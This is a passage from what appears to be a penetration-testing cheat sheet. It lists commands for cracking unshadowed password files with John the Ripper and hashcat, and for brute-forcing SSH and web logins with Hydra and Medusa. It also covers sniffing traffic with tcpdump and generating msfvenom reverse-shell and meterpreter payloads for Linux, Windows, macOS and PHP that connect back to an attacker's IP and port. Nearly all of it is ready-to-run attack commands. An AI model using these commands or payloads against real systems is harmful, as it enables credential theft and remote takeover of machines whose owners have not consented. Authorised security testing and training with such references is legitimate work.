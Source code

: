 Then, use John on the unshadowed file using a wordlist or rules mangling : john –rules –wordlist=<wordlist file> unshadowed.txt

Identifying Hash: hash-identifier

For other services, use Medusa or Hydra. Eg:

Hydra -L <username file> -P <Password file> -v <ip-address> ssh

Medusa -h <ip-address> -U <username file> -P <password file> -M http -m DIR:/admin -T 30

Using hashcat for cracking hashes:

For WordPress MD5 with salt: hashcat -m 400 -a 0 <hash file> <wordlist file>

Sample Password list: /usr/share/wordlist/rockyou.txt

**11. Packet Sniffing**
----------------------------------------------------------------------------------------------------------------------
Use Wireshark / tcpdump to capture traffic on the target host:

“tcpdump -i tap0  host <target-ip> tcp port 80 and not arp and not icmp -vv”

**12. SSH
----------------------------------------------------------------------------------------------------------------------
https://www.digitalocean.com/community/tutorials/ssh-essentials-working-with-ssh-servers-clients-and-keys


----------------------------------------------------------------------------------------------------------------------
Payload generation
----------------------------------------------------------------------------------------------------------------------
**http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet**

 **List payloads**

msfvenom -l

**Binaries:**
----------------------------------------------------------------------------------------------------------------------
**Linux**

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

**Windows**

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

**Mac**

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

**Web Payloads:**
----------------------------------------------------------------------------------------------------------------------
**PHP**

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
